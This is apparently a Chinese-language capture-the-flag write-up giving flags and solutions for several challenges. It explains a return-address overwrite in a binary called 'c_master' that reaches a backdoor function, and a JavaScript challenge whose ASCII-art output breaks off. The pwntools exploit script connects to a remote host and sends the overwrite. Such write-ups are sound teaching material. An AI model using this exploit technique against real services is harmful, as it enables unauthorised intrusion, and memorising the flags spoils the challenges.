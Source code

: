 ### 答案

`XSCTF{1bab71b8-117f-4dea-a047-340b72101d7b}`

## c_master 题解

### 思路

程序提供了五种操作，最引人注目的莫过于 `read()` 和对 `base` 的偏移操作．

其中 `read(0, &v6[v4], 8uLL)` 只读入8个字节，覆盖不到 `rbp` 的位置．

但~~注意到~~ `v6` 数组下标存在变量 `v4`，并且 `v4` 的值还可以受用户输入控制，这为覆盖 ret 提供空间．我们只需让 `v4` 偏移三次 8 个字节，就可以从 ret 的地址开始读入，实现溢出．（`char v6[8]; [rbp-10h]`，`10(hex) = 16(dec)`，`rbp`占8个字节）

~~注意到~~存在后门函数 `backdoor()`．更令人欣喜的是，程序没开 PIE 保护，能直接得到 `backdoor()` 地址．

### exp

```python
from pwn import *

# io = process('./c_master')
io = remote('43.248.97.213', 30676)

pwn_addr = 0x4012C3

for _ in range(3):
    io.sendline(b'base+=8;')
    io.sendline(b'read(0,base,0x8);')
    io.sendline(p64(pwn_addr))    # pwn!
    io.interactive()
```

### 答案

`XSCTF{p1e4se_bec0me_4_c_m4ster_x5c7f}`

## Running~ 题解

### 思路

发现是段 Javascript 代码．运行结果：

```txt
__   __   _____    _____   _______   ______     __                              _____           _   _     _           _            ______                  __                  _  _     _     _    ___                              __             ____    _        __                                _     _                  __   
    \ \ / /  / ____|  / ____| |__   __| |  ____|   / /     /\                      |_   _|         (_) | |   (_)         | |          |  ____|                /_ |                | || |   | |   (_)  / _ \                            / _|           / __ \  | |      / _|                              | |   (_)                 \ \  
    \ V /  | (___   | |         | |    | |__     | |     /  \     _ __              | |    _ __    _  | |_   _    __ _  | |          | |__    __  __  _ __    | |   ___    _ __  | || |_  | |_   _  | | | |  _ __              ___   | |_           | |  | | | |__   | |_   _   _   ___    ___    __ _  | |_   _    ___    _ __    | | 
   > <    \___ \  | |         | |    |  __|   / /     / /\ \   | '_ \             | |   | '_ \  | | | __| | |  / _` | | |          |  __|   \ \/ / | '_ \   | |  / _ \  | '__| |__   _| | __| | | | | | | | '_ \            / _ \  |  _|          | |  | | | '_ \  |  _| | | | | / __|  / __|  / _` | | __| | |  / _ \  | '_ \    \ \
  / . \   ____) | | |____     | |    | |      \ \    / ____ \  | | | |           _| |_  | | | | | | | |_  | | | (_| | | |          | |____   >  <  | |_) |  | | | (_) | | |       | |   | |_  | | | |_| | | | | |          | (_) | | |            | |__| | | |_) | | |   | |_| | \__ \ | (__  | (_| | | |_  | | | (_) | | | | |   / / 
```